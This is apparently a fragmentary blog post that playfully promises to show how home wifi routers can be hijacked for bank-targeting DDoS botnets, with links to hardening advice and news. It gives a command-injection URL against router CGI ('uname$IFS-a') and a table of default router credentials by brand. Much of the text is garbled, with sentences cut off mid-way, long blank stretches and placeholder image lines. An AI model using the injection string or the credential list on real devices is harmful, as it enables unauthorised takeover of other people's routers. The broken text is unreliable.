


> “You don’t know the power of the Dark Side.” — Darth Vader

Today, I’m going to show you the power of the dark side. I’m going to show you how to take a helpful household appliance — the humble wifi router — and corrupt it for your own evil ends. 

I’m going to show you how to rob a bank with it.

Actually, we’ll need need more than one of these. We’ll need millions of them. But don’t worry — we can get them. I’ll show you how.

  

(Sure, the banks have insurance for these kinds of things, but hey, at least we’re making their collective insurance premiums go up. Which makes their costs go up. Which they pass on to us in the form of higher fees. D’oh.)

  

  

Last weekend, 

You can play along at home, though I would recommend stopping short of actually launching the attack.

  

  

  

  

  

  

Hackers used these hacked home routers to launch massive distributed denial of service (DDOS) attacks on Russian banks. 

  

### Harden your router against attacks

  

If you want to really batten down the hatches, Lucian Constantin has compiled a [comprehensive checklist](http://www.csoonline.com/article/3093385/security/how-to-secure-your-router-and-home-network.html) of security measures you should apply for your router. 

  

  

  


  

  

  

  

  

Step 1: visit this URL: [http://192.168.1.1/cgi-bin/;uname$IFS-a](http://192.168.1.1/cgi-bin/;uname$IFS-a) or [http://192.168.0.1/cgi-bin/;uname$IFS-a](http://192.168.1.1/cgi-bin/;uname$IFS-a)

Here’s a list of 

```
+-------------+----------------------+-----------+--------------+
| Modem Brand |       Login IP       |  Username |   Password   |
+-------------+----------------------+-----------+--------------+
| 3Com        | http://192.168.1.1   | admin     | admin        |
| Belkin      | http://192.168.2.1   |           |              |
| BenQ        | http://192.168.1.1   | admin     | admin        |
| D-Link      | http://192.168.0.1   | admin     |              |
| Digicom     | http://192.168.1.254 | admin     |              |
| Digicom     | http://192.168.1.254 | admin     | password     |
| Digicom     | http://192.168.1.254 | admin     | michelangelo |
| Linksys     | http://192.168.1.1   | admin     | admin        |
| Netgear     | http://192.168.0.1   | admin     | password     |
| Sitecom     | http://192.168.0.1   | admin     | admin        |
| Sitecom     | http://192.168.0.1   | sitecom   | admin        |
| Thomson     | http://192.168.1.254 | user      | user         |
| US Robotics | http://192.168.1.1   | admin     | admin        |
+-------------+----------------------+-----------+--------------+
```

  

  

  

  

[**Russia claims it foiled a cyber attack from a foreign spy service**  
_The Russian government claims to have foiled a "large-scale" cyber attack from foreign intelligence services meant to…_www.csoonline.com](http://www.csoonline.com/article/3146977/security/russia-claims-it-foiled-a-cyber-attack-from-a-foreign-spy-service.html "http://www.csoonline.com/article/3146977/security/russia-claims-it-foiled-a-cyber-attack-from-a-foreign-spy-service.html")[](http://www.csoonline.com/article/3146977/security/russia-claims-it-foiled-a-cyber-attack-from-a-foreign-spy-service.html)

[**How to secure your router and home network**  
_Many computer users don't realize it, but for most people their internet router is the most important electronic device…_www.csoonline.com](http://www.csoonline.com/article/3093385/security/how-to-secure-your-router-and-home-network.html "http://www.csoonline.com/article/3093385/security/how-to-secure-your-router-and-home-network.html")[](http://www.csoonline.com/article/3093385/security/how-to-secure-your-router-and-home-network.html)

[**An unpatched vulnerability exposes Netgear routers to hacking**  
_Several models of Netgear routers are affected by a publicly disclosed vulnerability that could allow hackers to take…_www.pcworld.com](http://www.pcworld.com/article/3149554/security/an-unpatched-vulnerability-exposes-netgear-routers-to-hacking.html "http://www.pcworld.com/article/3149554/security/an-unpatched-vulnerability-exposes-netgear-routers-to-hacking.html")[](http://www.pcworld.com/article/3149554/security/an-unpatched-vulnerability-exposes-netgear-routers-to-hacking.html)
